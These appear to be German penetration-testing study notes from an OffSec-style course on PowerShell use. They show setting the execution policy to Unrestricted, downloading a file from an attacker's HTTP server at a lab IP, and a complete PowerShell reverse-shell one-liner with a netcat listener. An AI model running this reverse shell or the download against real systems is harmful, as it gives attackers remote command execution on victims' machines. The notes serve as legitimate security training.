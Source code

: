 # OffSec - Powershell und Powercat

## Execution Policy

Um #Powershell effektiv in einem #Penetrationtest verwenden zu können, muss die #Execution-Policy auf "Unrestricted" gesetzt werden.

`Set-ExecutionPolicy Unrestricted`

Mit folgendem Befehl kann überprüft werden, wie die Execution-Policy gesetzt ist:

`Get-ExecutionPolicy`

## File Transfers

Mit #Powershell können auch #FileTransfers durchgeführt werden.
Wie folgt wird ein #Download vorgenommen - Vorausetzung ist, dass auf dem Host ein HTTP-Server eröffnet wurde siehe: [[OffSec - Simple HTTP-Server]] 

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`


## Reverse Shell

Auch mit #Powershell ist es möglich eine #Reverseshell zu erzeugen.

Hierzu einen #Listener auf dem Angreifer-PC öffnen:
`sudo nc -lnvp 443`

Mit folgendem #One-Liner wird dann die Verbindung aufgebaut:

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


